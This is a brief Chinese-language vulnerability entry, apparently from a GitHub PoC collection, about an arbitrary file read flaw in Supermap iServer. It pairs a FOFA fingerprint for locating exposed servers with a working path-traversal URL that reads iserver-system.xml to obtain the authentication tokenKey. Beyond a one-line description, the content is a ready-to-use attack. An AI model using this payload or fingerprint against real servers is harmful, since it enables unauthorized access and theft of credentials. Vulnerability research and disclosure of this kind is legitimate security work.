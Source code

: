 ## Supermap iServer任意文件读取漏洞

## 简介
北京超图软件股份有限公司是聚焦地理信息软件和空间智能领域的基础软件与应用软件厂商，Supermap iServer 存在文件读取漏洞，攻击者可获取用于认证的tokenKey
## fofa

icon_hash="-1656662001"

## poc
```
/iserver/output/../WEB-IN%2546/iserver-system.xml
```
